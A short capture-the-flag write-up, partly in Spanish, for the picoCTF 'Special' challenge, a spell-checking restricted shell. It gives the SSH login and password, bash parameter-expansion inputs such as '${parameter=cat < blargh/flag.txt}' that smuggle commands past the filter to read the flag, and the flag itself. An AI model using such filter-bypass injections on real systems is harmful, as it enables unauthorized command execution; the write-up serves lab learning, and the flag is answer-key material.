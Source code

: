 # 3 - special

## Descripcion:
* Don't power users get tired of making spelling mistakes in the shell? Not anymore! Enter Special, the Spell Checked Interface for Affecting Linux. Now, every word is properly spelled and capitalized... automatically and behind-the-scenes! Be the first to test Special in beta, and feel free to tell us all about how Special streamlines every development process that you face. When your co-workers see your amazing shell interface, just tell them: That's Special (TM)
Start your instance to see connection details.
ssh -p 51405 ctf-player@saturn.picoctf.net
The password is d137d16e

## Solucion:
* ssh -p 56564 ctf-player@saturn.picoctf.net
* d137d16e
* ${parameter=ls}
* ${parameter =ls blargh}
* ${parameter=cat < blargh/flag.txt}
* picoCTF{5p311ch3ck_15_7h3_w0r57_3befb794}

## Notas:
* entramos al servidor
* pusimos la contraseña
* entramos al directorio
* vimos los archivos
* tenemos la vandera

## Referencias: